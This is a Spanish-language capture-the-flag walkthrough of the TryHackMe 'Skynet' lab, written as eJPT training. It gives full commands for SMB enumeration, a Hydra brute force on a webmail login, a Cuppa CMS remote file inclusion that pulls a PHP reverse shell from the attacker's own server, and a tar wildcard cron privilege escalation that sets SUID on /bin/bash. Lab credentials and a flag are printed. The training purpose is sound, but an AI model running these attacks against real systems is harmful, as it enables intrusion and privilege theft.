

## Resumen

**Skynet** es la octava máquina de la serie _Road to eJPTv2_ y una de las más completas del path. Combina enumeración SMB, brute force sobre un webmail, explotación de un CMS con Remote File Inclusion y una escalada de privilegios clásica basada en el wildcard de `tar` en un cron job.

Un flujo de ataque encadenado donde cada fase depende de la anterior — exactamente el tipo de razonamiento que evalúa la eJPT.

| Atributo       | Valor                                            |
| -------------- | ------------------------------------------------ |
| **Plataforma** | TryHackMe                                        |
| **Dificultad** | Media                                            |
| **OS**         | Linux (Ubuntu)                                   |
| **Sala**       | [Skynet](https://tryhackme.com/room/skynet)      |
| **Skills**     | SMB Enum, Brute Force, RFI, Tar Wildcard PrivEsc |

### 🎥 Versión en video



> Si prefieres seguir el walkthrough paso a paso, continúa leyendo. El video cubre el mismo proceso en formato visual.

### Herramientas usadas

- `nmap` — escaneo de puertos y versiones
- `smbmap` / `smbclient` — enumeración de recursos compartidos SMB
- `gobuster` — fuzzing de directorios web
- `hydra` — brute force sobre formulario HTTP
- `searchsploit` — búsqueda de exploits locales
- `netcat` — recepción de reverse shell
- `python3` — estabilización de shell

### Resumen de la solución

1. **Reconocimiento:** nmap revela SMB, HTTP y servicios de correo. SMB anónimo expone un wordlist de contraseñas.
2. **Enumeración web:** gobuster encuentra `/squirrelmail`.
3. **Brute force:** Hydra usa el wordlist del SMB para comprometer el webmail de `milesdyson`.
4. **Pivote por email:** El inbox contiene la contraseña SMB de milesdyson.
5. **SMB autenticado:** El share personal revela un directorio oculto en el servidor web.
6. **Cuppa CMS:** Segundo gobuster descubre panel de administración con RFI conocido.
7. **Reverse shell:** RFI ejecuta un payload PHP alojado en nuestra máquina.
8. **User flag:** Acceso como `www-data` permite leer `/home/milesdyson/user.txt`.
9. **Privesc:** `backup.sh` ejecuta `tar *` como root vía cron — explotamos el wildcard para setear SUID en `/bin/bash`.

---

## Reconocimiento

### Ping

Verificamos conectividad e identificamos el SO por el TTL:

```bash
ping -c 1 10.66.170.216
```

```
64 bytes from 10.66.170.216: icmp_seq=1 ttl=62 time=64.1 ms
```

TTL 62 → Linux (el valor original es 64, se decrementó en los saltos de red).

### Nmap — Escaneo de puertos

```bash
nmap 10.66.170.216 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```

Superficie de ataque interesante: HTTP, SMB (139/445) y servicios de correo (110/143).

### Nmap — Versiones y scripts

```bash
nmap 10.66.170.216 -n -Pn -sS -p22,80,110,139,143,445 -sCV --min-rate=5000 -oN skynetscann.txt
```

Resultados clave:

- `Apache 2.4.18` en puerto 80
- `OpenSSH 7.2p2` en puerto 22
- `Samba 4.3.11` en puertos 139/445 — workgroup: WORKGROUP
- Correo: `Dovecot pop3d` / `imapd`

### SMB — smbmap

Enumeramos los recursos compartidos sin credenciales:

```bash
smbmap -H 10.66.170.216
```

```
Disk              Permissions   Comment
----              -----------   -------
print$            NO ACCESS     Printer Drivers
anonymous         READ ONLY     Skynet Anonymous Share
milesdyson        NO ACCESS     Miles Dyson Personal Share
IPC$              NO ACCESS     IPC Service
```

Dos hallazgos importantes: el share `anonymous` es accesible sin credenciales, y existe un usuario llamado `milesdyson`.

### SMB — smbclient (anonymous)

```bash
smbclient //10.66.170.216/anonymous -N
```

```
smb: \> dir
  attention.txt
  logs/
```

Descargamos el contenido del directorio `logs`:

```bash
smb: \> cd logs
smb: \logs\> dir
  log1.txt
  log2.txt
  log3.txt
```

`log1.txt` contiene una lista de posibles contraseñas — nuestro wordlist para el brute force.

### Fuzzing web — gobuster

```bash
gobuster dir -u http://10.66.170.216 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak
```

```
/admin         (Status: 301)
/squirrelmail  (Status: 301)
```

Encontramos `/squirrelmail` — un webmail. La combinación de usuario conocido (`milesdyson`) + wordlist del SMB es perfecta para un brute force.



---

## Explotación

### Brute force — Hydra sobre SquirrelMail

SquirrelMail usa un formulario POST. Configuramos Hydra con los parámetros correctos:

```bash
hydra -l milesdyson -P log1.txt 10.66.170.216 http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."
```

```
[80][http-post-form] host: 10.66.170.216   login: milesdyson   password: cyborg007haloterminator
```

Credenciales obtenidas: `milesdyson:cyborg007haloterminator`


### SquirrelMail — Lectura del inbox

Accedemos al webmail en `http://10.66.170.216/squirrelmail/src/login.php`:


El inbox contiene 3 correos. El más relevante es el de `skynet@skynet` con asunto **"Samba Password reset"**:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Nueva contraseña SMB: `)s{A&2Z=F^n_E.B\``

### SMB — Acceso autenticado como milesdyson

```bash
smbclient //10.66.170.216/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

```
smb: \> dir
  Improving Deep Neural Networks.pdf
  Natural Language Processing-Building Sequence Models.pdf
  Convolutional Neural Networks-CNN.pdf
  notes/
  Neural Networks and Deep Learning.pdf
  Structuring your Machine Learning Project.pdf
```

Navegamos a `notes/` y descargamos `important.txt`:

```bash
smb: \notes\> get important.txt
```

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Directorio oculto revelado: `/45kra24zxs28v3yd`

### Segundo fuzzing — Cuppa CMS

Hacemos fuzzing sobre el directorio oculto:

```bash
gobuster dir -u http://10.66.170.216/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak
```

```
/administrator  (Status: 301)
```

En `http://10.66.170.216/45kra24zxs28v3yd/administrator/` encontramos un panel de **Cuppa CMS**.


### Searchsploit — Vulnerabilidad RFI en Cuppa CMS

```bash
searchsploit cuppa cms
```

```
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion  | php/webapps/25971.txt
```

```bash
searchsploit -m 25971
```

El exploit describe una vulnerabilidad de **Remote File Inclusion (RFI)** en el parámetro `urlConfig` de `alertConfigField.php`. Permite cargar un archivo PHP remoto y ejecutarlo en el servidor.

### Reverse shell via RFI

Preparamos un payload PHP de reverse shell (por ejemplo, el de PentestMonkey) y lo alojamos en nuestra máquina con Python:

```bash
python3 -m http.server 80
```

Ponemos netcat en escucha:

```bash
nc -lvnp 4444
```

Ejecutamos el RFI apuntando a nuestro servidor:

```
http://10.66.170.216/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<TU_IP>/rev.php
```

Recibimos la conexión como `www-data`.

---

## Post-Explotación

### Estabilización de la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 48 cols 184
```

### User flag

```bash
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

---

## Escalada de privilegios

### Enumeración — backup.sh

Explorando el home de milesdyson encontramos el directorio `backups`:

```bash
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Este script ejecuta `tar` con un wildcard (`*`) en `/var/www/html`. El archivo `backup.tgz` se actualiza periódicamente, lo que indica que corre como **cron job de root**.

### Explotación — Tar wildcard

`tar` acepta argumentos que empiezan con `--` si los encuentra como archivos en el directorio. Esto nos permite inyectar opciones arbitrarias a `tar` creando archivos con nombres especiales.

**Paso 1:** Crear un script que setee SUID en `/bin/bash`:

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
```

**Paso 2:** Crear los archivos "trampa" que serán interpretados como flags de `tar`:

```bash
touch /var/www/html/--checkpoint=1
touch /var/www/html/"--checkpoint-action=exec=sh root_shell.sh"
```

Cuando el cron ejecute `tar cf backup.tgz *`, el wildcard se expande e incluye estos archivos como argumentos:

```bash
tar cf backup.tgz --checkpoint=1 --checkpoint-action=exec=sh root_shell.sh ...
```

**Paso 3:** Esperar a que el cron corra y verificar:

```bash
www-data@skynet:/home/milesdyson/backups$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

El bit SUID está activo. Escalamos a root:

```bash
/bin/bash -p
bash-4.3# whoami
root
```

### Root flag

```bash
bash-4.3# cat /root/root.txt
```

---

## Lecciones aprendidas

- **El SMB anónimo puede ser una mina de oro** — Un share de lectura pública que contiene un wordlist de contraseñas fue el punto de entrada para comprometer todo lo demás. Siempre enumerar SMB exhaustivamente.
- **El pivote entre servicios es clave** — Credenciales de webmail → contraseña SMB → directorio oculto → CMS. Cada servicio alimenta al siguiente. En un pentest real, este tipo de encadenamiento es muy común.
- **Los archivos "internos" revelan superficie oculta** — El `important.txt` del SMB reveló un directorio que no habría aparecido en un fuzzing estándar desde fuera.
- **RFI requiere acceso de red entre servidores** — Para explotar el RFI de Cuppa CMS, el servidor víctima necesita poder alcanzar nuestra IP. Siempre verificar conectividad antes de lanzar el exploit.
- **Tar wildcard es un privesc clásico** — Cualquier script que ejecute `tar *`, `zip *`, `rsync *`, etc. como root en un directorio escribible es vulnerable. Buscar cron jobs con wildcards durante la post-explotación.

### Para la eJPT

Esta máquina cubre directamente varios objetivos del examen:

| Concepto                     | Relevancia eJPT                            |
| ---------------------------- | ------------------------------------------ |
| Enumeración SMB              | Técnica core en redes Windows/Linux mixtas |
| Brute force HTTP             | Escenario común en aplicaciones web        |
| Remote File Inclusion        | Vulnerabilidad web clásica en el syllabus  |
| Escalada vía cron + wildcard | Privesc realista sin exploits de kernel    |

**Tiempo aproximado de resolución:** 60-90 minutos.

---

## Referencias

- [Skynet — TryHackMe](https://tryhackme.com/room/skynet)
- [Cuppa CMS RFI — Exploit-DB 25971](https://www.exploit-db.com/exploits/25971)
- [Tar Wildcard Injection — GTFOBins](https://gtfobins.github.io/gtfobins/tar/)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
- [smbmap](https://github.com/ShawnDEvans/smbmap)
